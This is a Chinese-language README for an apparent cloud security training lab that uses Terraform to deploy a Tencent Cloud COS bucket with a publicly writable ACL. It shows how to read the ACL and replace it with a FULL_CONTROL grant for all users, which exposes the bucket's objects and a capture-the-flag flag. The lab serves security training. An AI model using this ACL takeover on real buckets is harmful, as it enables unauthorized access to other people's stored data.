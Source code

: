 # 腾讯云 COS Bucket ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建腾讯云 COS Bucket ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法访问的资源修改为可读，从而访问到 COS 服务资源。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/tencentcloud/cos/bucket_acl_writable/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的`tencentcloud_secret_id`和`tencentcloud_secret_key`

```shell
vim terraform.tfvars
```

> * 在腾讯云控制台的 [API 密钥管理](https://console.cloud.tencent.com/cam/capi)可以创建和查看您的 SecretID 和 SecretKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Bucket ACL 读取和写入权限

## 漏洞利用

尝试遍历 Object，发现访问被拒绝

![img](../../../images/1652347780.png)

尝试读取 Bucket 的 ACL 策略，发现可以读取

```shell
https://houxianxxxxx-1234567890.cos.ap-beijing.myqcloud.com/?acl
```

![img](../../../images/1652347858.png)

尝试使用 PUT 方法修改 Bucket 的 ACL 策略

原来的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

新的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://cam.qcloud.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![img](../../../images/1652348202.png)

再次尝试遍历 Object，发现已经可以遍历到了，说明刚才上传的 ACL 策略生效了，在返回的信息中可以看到 flag

![img](../../../images/1652348264.png)

## 销毁环境

```shell
terraform destroy
```
